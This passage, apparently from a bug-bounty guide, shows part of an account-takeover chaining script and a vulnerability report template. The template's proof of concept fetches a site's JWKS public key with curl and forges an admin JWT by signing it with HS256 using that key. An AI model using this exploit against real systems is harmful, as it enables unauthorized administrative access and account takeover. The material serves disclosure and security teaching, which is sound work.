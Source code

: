 ```python
            self.chain.append(("Predictable Tokens", "Critical"))
            return "CRITICAL: IDOR -> Email Extraction -> Predictable Reset Tokens -> Full ATO"
        
        # Step 5: Alternative - Check for email verification bypass
        if self.check_email_verification_bypass():
            self.chain.append(("Email Verification Bypass", "High"))
            return "HIGH: IDOR -> Email Change -> Account Takeover"
        
        return self.generate_impact_report()
```

**Report Template for Maximum Impact**:

```markdown
# [CRITICAL] Authentication Bypass via JWT Algorithm Confusion Leading to Full Administrative Access

## Summary
A critical vulnerability in the JWT implementation allows attackers to bypass authentication completely and gain administrative access to all user accounts and sensitive data.

## Vulnerability Details
- **Type**: Authentication Bypass (CWE-287)
- **Severity**: Critical (CVSS 9.8)
- **Affected Component**: `/api/auth/*` endpoints
- **Prerequisites**: None (unauthenticated attack)

## Technical Analysis
The application accepts JWT tokens signed with HS256 algorithm using the public RSA key as the secret. This allows an attacker to forge valid tokens with arbitrary claims.

### Root Cause
The JWT library fails to properly validate the algorithm specified in the token header against the expected algorithm, allowing algorithm confusion attacks.

## Proof of Concept

### Step 1: Obtain Public Key
```bash
curl https://target.com/.well-known/jwks.json | jq '.keys[0].x5c[0]' | base64 -d > public.pem
```

### Step 2: Create Malicious Token
```python
import jwt
import time

# Read public key
with open('public.pem', 'r') as f:
    public_key = f.read()

# Create admin token
payload = {
    "sub": "1",
    "role": "admin",
    "exp": int(time.time()) + 86400
}

# Sign with HS256 using public key as secret
token = jwt.encode(payload, public_key, algorithm='HS256')
print(f"Malicious token: {token}")
```

